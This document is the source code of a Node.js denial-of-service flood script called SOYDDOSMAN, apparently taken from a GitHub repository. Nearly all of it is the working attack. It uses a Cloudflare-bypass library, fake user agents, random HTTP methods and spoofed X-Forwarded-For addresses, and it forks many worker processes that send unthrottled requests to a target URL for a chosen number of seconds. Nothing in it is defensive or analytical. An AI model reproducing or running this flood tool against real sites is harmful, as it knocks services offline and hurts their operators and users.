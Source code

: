 # SOYDDOSMAN

require('events').EventEmitter.defaultMaxListeners = 0;
const cloudflare = require("cloudflare-bypasser")
const cf = new cloudflare();
const randomstring = require("randomstring")
const fakeUa = require("fake-useragent");
const cluster = require("cluster");
const colors = require("colors");
if(process.argv.length !== 5){
        console.log("CREADO POR |JORGE KHE MAMADAS|".inverse)
        console.log("node jorge.js url (servers//example; 2) (tiempo en segundos)".underline.red)
        process.exit()
        }
function flood_req(){
var char = randomstring.generate({
length:10,
charset:'abcdefghijklmnopqstuvwxyz0123456789'
})
var charr = randomstring.generate({
length:7,
charset:'abcdefghijklmnopqstuvwxyz0123456789'
})
ipq = function ranip(){
return Math.round(Math.random()*256)
}
var ip = ipq()+'.'+ipq()+'.'+ipq()+'.'+ipq()
var Array_method = ['HEAD',  'GET',  'POST', 'PUT', 'DELETE', 'CONNECT', 'OPTIONS', 'TRACE', 'PATCH', 'DEL'];
var randommode = Array_method[Math.floor(Math.random()*Array_method.length)]
cf.request({
method:randommode,
resolveWithFullResponse: true,
headers:{
'User-Agent': fakeUa(),
'Upgrade-Insecure-Requests': '1',
'Connection':'Keep-Alive',
'Keep-Alive': 'timeout=10,max=100',
'Origin': 'http://' + char + '.com',
'Referrer': 'http://google.com/' + char,
'X-Forwarded-For': ip
},
url:process.argv[2]+"?"+charr
})

}
function th(){
setInterval(()=>{
flood_req()
})
}
if(cluster.isMaster){
        for (let i=0;i<process.argv[3];i++){
    cluster.fork()
    console.log(`servers ${i+1} `)
    }
    console.log("Jorge Khe Mamadas".white.inverse)
}else{
        th()
        }

setTimeout(()=>{
console.log("Ataque Finalizado!".red.inverse)
process.exit()
},1000*process.argv[4])
process.on('uncaughtException', function (err) {
    // console.log(err);
});
process.on('unhandledRejection', function (err) {
    // console.log(err);
});
